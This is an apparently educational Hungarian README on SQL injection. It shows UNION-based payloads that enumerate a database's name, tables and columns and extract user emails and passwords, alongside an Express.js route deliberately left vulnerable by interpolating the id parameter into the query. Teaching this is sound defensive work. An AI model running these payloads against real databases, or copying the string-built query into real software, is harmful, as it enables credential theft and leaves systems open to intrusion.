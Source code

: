# Sql Injections
- branch: `04_Sql_Injection`
[A 10 leggyakoribb támadástípus](https://owasp.org/www-project-top-ten/)

## Támadások sql-ből
```sql
# sql injection
# union
SELECT * FROM cars union SELECT * FROM cars;
SELECT * FROM cars UNION ALL SELECT * FROM cars;
SELECT * FROM cars union SELECT *, '' FROM users;

# Mi az adatbázis neve
SELECT * FROM cars
  WHERE id = 1 UNION SELECT database(), '', '', '';

# Milyen táblák vannak
SELECT * FROM cars
  WHERE id = 1 union select table_name, '','', '' from information_schema.tables where table_schema='cars';

# cars tábla oszlopai
SELECT * FROM cars
  WHERE id = 1 union select column_name, '', '', data_type from information_schema.columns where table_name='users' and table_schema='cars';

# user adatok kilopása
SELECT * FROM cars
  WHERE id = 1 union select email, password, '','' from users;
```

## Az sql injection-el támadható kód
- Egy sql kód akkor támadható, ha belefűzzük a sztringbe a paramétert:
```js
app.get("/cars/:id", (req, res) => {
  const id = req.params.id;
  var connection = getConnection();
  connection.connect();

  //támadható megoldás: az sql sztringbe fűzött paraméter
  let sql = `
    SELECT * FROM cars
    WHERE id = ${id}`;

  connection.query(sql, function (error, results, fields) {
    if (error) {
      console.log(error);
      return;
    }
    res.send(results);
  });

  connection.end();
});
```
